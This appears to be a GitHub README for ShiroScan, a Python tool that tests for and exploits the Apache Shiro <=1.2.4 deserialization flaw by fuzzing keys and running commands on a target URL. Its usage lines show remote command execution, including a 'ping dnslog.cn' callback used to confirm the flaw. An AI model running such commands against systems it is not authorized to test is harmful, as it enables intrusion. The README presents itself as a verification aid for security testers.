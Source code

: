 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

```
集成21个key进行fuzz
```

* 如果有帮助，请点个star哦，blog：www.svenbeast.com
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 7个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多
* 请自行收集编码，在moule下的源代码中自行添加方法即可

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
